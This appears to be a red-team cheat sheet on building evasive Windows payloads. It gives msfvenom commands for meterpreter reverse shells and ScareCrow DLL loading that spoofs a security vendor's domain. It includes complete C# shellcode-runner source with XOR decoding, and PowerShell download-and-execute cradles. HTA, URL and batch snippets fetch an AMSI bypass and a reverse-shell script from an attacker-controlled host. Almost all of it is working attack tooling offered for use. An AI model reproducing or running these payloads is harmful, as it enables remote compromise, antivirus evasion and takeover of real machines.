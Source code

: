 ## Scarecrow dll
#### Generate shellcode
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -i 11 -f raw -o hackerman.bin
```

#### Run with scarecrow
```
ScareCrow -Loader dll -domain trendmicro.com -I shellcode.bin
```

#### Start listener
```
sudo msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; set ExitOnSession false; exploit -j -z'
```

#### Run payload
```
regsvr32.exe C:\Windows\Tasks\urlmon.dll
```

## Extra Xorred meterpreter DLL
- https://crypt0jan.medium.com/red-team-tutorials-4-616c565ccec9

#### Generate payload
- Save the payload size (byts). You need it later
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 --encoder x64/xor_dynamic -i 11 -f csharp > shellcode.txt
```

#### Xor payload
- https://github.com/crypt0jan/XORencoder
- ```git clone https://github.com/crypt0jan/XORencoder```
- Open the project in Visual Studio.
- Edit file ```Project.cs```, replacing the buf with your payload from Step 1
- At the top change Debug to Release and click Build XOR_encoder.
- Open the project directory ```\XORencoder\bin\Release\netcoreapp3.1\``` and run ```.\XOR_encoder.exe```
- Copy the new shellcode

#### Creating C# DLL
- Git clone https://github.com/crypt0jan/ClassLibrary1
- Paste the code from below over the code in ```Class1.cs```, to change some names.
- Edit line 39 and add the amount of bytes ```byte[] buf = new byte[1072]```
- Add the xorred shellcode.
- At the top change Debug to Release and click "Start"
- You will get an error popup but the build should succeed!

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace RunMe
{
    public class RunMeClass
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        public static void RunBaby()
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            byte[] buf = new byte[1072]
                {  };

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

#### Create a download and execute cradle
- Download the ```ClassLibrary1.dll``` file to your webserver.
- Create a ```runme.ps1``` file with the following content:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://<IP>/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("RunMe.RunMeClass")
$method = $class.GetMethod("RunBaby")
$method.Invoke(0, $null)
```

#### Start listener
```
sudo msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; set ExitOnSession false; exploit -j -z'
```

#### Download and execute cradle PowerShell:
```
powershell.exe -nop -w hidden -C "IEX (New-Object System.Net.WebClient).downloadString('http://<IP>/runme.ps1')"
```

## HTA files
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<IP>/amsi.txt'))""; ""IEX ((new-object net.webclient).downloadstring('http://<IP>/HTTPStager.ps1'))"""
    End Function

    Pwn
  </script>
</html>
```

## URL file
```
C:\Windows\System32\cmd.exe /c powershell IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/amsi.txt')); IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/Invoke-PowerShellTcp2.ps1'))
```

## Bat file
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/amsi.txt')); IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/Invoke-PowerShellTcp2.ps1'))"

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/amsi.txt')); IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/Invoke-PowerShellTcp2.ps1'))"
```

## bat2exe
- https://github.com/islamadel/bat2exe/releases/tag/2.0


